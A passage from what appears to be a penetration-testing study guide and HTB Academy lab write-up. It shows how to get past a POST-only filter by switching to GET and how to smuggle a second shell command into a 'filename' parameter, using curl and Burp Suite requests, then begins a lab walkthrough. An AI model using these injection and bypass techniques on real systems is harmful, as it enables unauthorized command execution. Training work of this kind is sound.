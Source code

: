 **Response:** File created with special characters

#### Method 2: Command Injection Exploitation

**Test Payload:** Create two files to confirm injection
```bash
# Payload: file1; touch file2;
# URL encoded: file1%3B%20touch%20file2%3B

# POST request (blocked by filter)
curl -X POST http://target.com/ -d "filename=file1%3B%20touch%20file2%3B"

# GET request (bypasses filter)
curl "http://target.com/?filename=file1%3B%20touch%20file2%3B"
```

**Verification:** Check if both `file1` and `file2` were created

### Burp Suite Exploitation

**Step 1: Capture Original POST Request**
```http
POST / HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

filename=test;
```

**Step 2: Convert POST to GET**
- Right-click → "Change Request Method"
- Parameters automatically move to URL query string
- Forward modified request

**Step 3: Escalate to Command Injection**
```http
GET /?filename=file1%3B%20touch%20file2%3B HTTP/1.1
Host: target.com
```

---

## HTB Academy Lab Solutions

### Lab: File Manager Authentication Bypass

**Target:** `http://94.237.50.221:38391`

**Objective:** Access `/admin/reset.php` without credentials to delete all files

**Step-by-Step Solution:**

**1. Initial Reconnaissance**
```bash
# Check the application
curl -i http://94.237.50.221:38391/

# Try accessing admin area (should prompt for auth)
curl -i http://94.237.50.221:38391/admin/reset.php
# Response: 401 Unauthorized
```
